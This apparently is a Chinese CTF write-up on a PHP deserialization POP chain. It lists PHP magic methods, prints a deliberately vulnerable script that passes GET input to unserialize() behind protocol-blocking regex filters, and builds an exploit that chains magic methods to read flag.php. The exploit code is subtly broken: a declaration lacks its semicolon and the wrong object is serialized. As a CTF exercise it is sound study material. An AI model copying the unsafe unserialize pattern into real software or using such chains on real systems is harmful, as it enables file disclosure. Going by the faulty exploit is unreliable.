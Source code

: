 #php反序列化之POP链

##魔术方法
列举：
__wakeup() //使用反序列函数unserialize()时触发

__sleep() //使用serialize时触发

__destruct() //对象销毁时触发

__construct() //用于创建对象，当实例化对象时被触发

__call() //在对象上下文中调用不可访问的方法时触发

__callStatic() //在静态上下文中调用不可访问的方法时触发

__get() //用于从不可访问的属性读取数据

__set() //用于将数据写入不可访问属性

__isset() //在不可访问的属性上调用isset()或empty()触发

__unset() //在不可访问的属性上使用unset()时触发

__toString() //把类当作字符串使用时触发

__invoke() //脚本尝试将对像调用为函数时触发

##审计代码
```
<?php
//flag is in flag.php
error_reporting(1);
class Read {
    public $var;
    
    /*Read类的一个函数*/
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value)); #将文件的内容以字符串的形式读取出来，并进行base64的加密
        return $text;
    }
    
    /*当以函数的方法调用一个Read类实例时，会先调用__invoke方法*/
    public function __invoke(){
        $content = $this->file_get($this->var); #将被base64加密的文件的内容赋值给$comtent
        echo $content;
    }
}

class Show{
    public $source;
    public $str;
    
    /*当初始化一个Show实例的时候，默认他的file属性为index.php*/
    public function __consturct($file='index.php'){
        $this->source = $file; #将index.php赋值给$this->source
        echo $this->source."Welcome"."<br>"; #显示index.php  Welcomee
    }
    
    /*当一个Show的类实例被当作一个字符串使用时，会。。。。*/
    public function __toString(){
        return $this->str['str']->source;//注意这里，很奇怪。调用了一个从来没有的类属性，
        //所以会调用get方法。而同时正常到$this->str['str']就返回了键值了，但是它后面又有一个取属性的操作。
        //所以想$this->str['str']本身就是一个有source属性的一个类的实例
    }
    
    /*这应该不是一个内置的魔术方法，，，*/
    public function _show(){
        if(preg_match('/gopher|http|ftp|https|dict|\.\.|flag|file/i',$this->source)){
            die('hacker');
        }
        else{
            highlight_file($this->source);
        }
    }
    
    /*当对一个Show实例进行反序列化之前调用*/
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            echo "hacker";
            $this->source="index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }
    
    /*在获取一个Test的类成员的时候调用：$a->bbb*/
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}


if(isset($_GET['hello']))
{
    unserialize($_GET['hello']);
}
else
{
    $show = new Show('pop1.php');
    $show->_show();
}
highlight_file(__FILE__);
?>
```


在输入hello这个变量后，调用unserialize()反序列化函数之前，先调用__wakeup()函数
```
 public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            echo "hacker";
            $this->source="index.php";
        }
    }
```
里面有preg_match正则匹配函数，将一个类实例化的source属性，也是另一个类的对象实例化，以字符串的形式进行遍历匹配，从而触发__toString()函数
```
 public function __toString(){
        return $this->str['str']->source;//注意这里，很奇怪。调用了一个从来没有的类属性，
        //所以会调用get方法。而同时正常到$this->str['str']就返回了键值了，但是它后面又有一个取属性的操作。
        //所以想$this->str['str']本身就是一个有source属性的一个类的实例
    }

```
方法查找到了str[]这个数组，而数组里的str是一个key键，而value值代表的是source，而str['str']需要是一个类的实例化，但是这个属性在show类中却不存在，且return访问里面的数值并返回，所以触发__get()函数
```
 public function __get($key){
        $function = $this->p;
        return $function();
    }
```
而p为一个类的对象实例化的p属性，且将属性取出来，并给$function，然后用函数的方式执行，触发__invoke()函数
```
 public function __invoke(){
        $content = $this->file_get($this->var); #将被base64加密的文件的内容赋值给$comtent
        echo $content;
    }
```
而__invoke()函数中调用了file_get()函数
```
 public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value)); #将文件的内容以字符串的形式读取出来，并进行base64的加密
        return $text;
    }
```
然后给read类下的对象实例化的属性var赋值一个flag.php


构造一个exp
```
<?php

class Read{

public $var;
}

class Show{

public $source;
public $str;

}

class Test{

public $p
}

$a=new Read();
$b=new Show();
$c=new Test();

$b->source=$b;
$b->str['str']=$c;
$c->p=$a;
$a->var='flag.php';

echo serialize($a);

?>
```
得到一个序列化的数值，然后构造payload